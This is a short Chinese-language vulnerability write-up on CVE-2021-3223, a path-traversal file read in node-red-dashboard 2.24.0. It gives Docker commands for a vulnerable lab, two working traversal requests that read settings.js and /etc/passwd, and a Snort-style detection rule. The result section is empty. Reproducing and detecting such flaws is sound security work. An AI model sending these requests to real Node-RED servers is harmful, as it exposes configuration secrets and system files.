


## Node-RED ui_base 任意文件读取漏洞(CVE-2021-3223)

### 0X 01、漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，
缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

**Version effect**:

```
node-red-dashboard 2.24.0
```

### 0X 02、漏洞验证 

#### <1> 环境部署：

To run in Docker in its simplest form just run:

```bash
构建：
docker run -p 1880:1880 -d --name mynodered nodered/node-red:1.2.3
npm i node-red-dashboard@2.24.0
docker restart `Containername`

一键启动（已制作一键启动镜像，自由食用）：
docker run -p 1880:1880 -d --name mynodered vulshare/node-red-dashboard-cve-2021-3223:iosname
```

#### <2> 漏洞验证：

```http
GET /ui_base/js/..%2f..%2f..%2f..%2fsettings.js
GET /ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```



### 0X 03、漏洞检测相关

**规则如下：**

```ruby
alert tcp any any -> $EXTERNAL_NET $HTTP_PORTS (msg:"Node-RED ui_base 任意文件读取漏洞(CVE-2021-3223)"; flow:established,to_server; content:"ui_base"; nocase; http_uri; pcre:"/ui_base[/|\\]js(%2f|\x2f)..(%2f|\x2f)..(%2f|\x2f)/i";  classtype:web-application-attack; sid:2020233; rev:1;)
```

### 0X 04、 验证如下



